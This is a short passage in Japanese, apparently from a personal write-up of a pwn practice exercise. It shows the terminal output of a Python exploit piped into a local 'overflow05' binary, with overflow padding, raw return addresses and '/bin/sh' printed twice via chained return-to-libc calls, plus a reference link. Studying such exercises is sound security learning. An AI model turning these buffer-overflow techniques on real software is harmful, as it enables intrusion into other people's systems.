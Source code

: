 ## 実行結果

2回putsさせることに成功！

```bash-statement
saru@lucifen:~/pwn005$ python exploit05_stdout.py | ./overflow05
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`C▒▒`C▒▒ψ▒▒ψ▒▒
/bin/sh
/bin/sh
Segmentation fault (core dumped)
saru@lucifen:~/pwn005$
```


## 参考リンク

- [Return-to-libcで連続して関数を呼んでみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/03/24/020347)


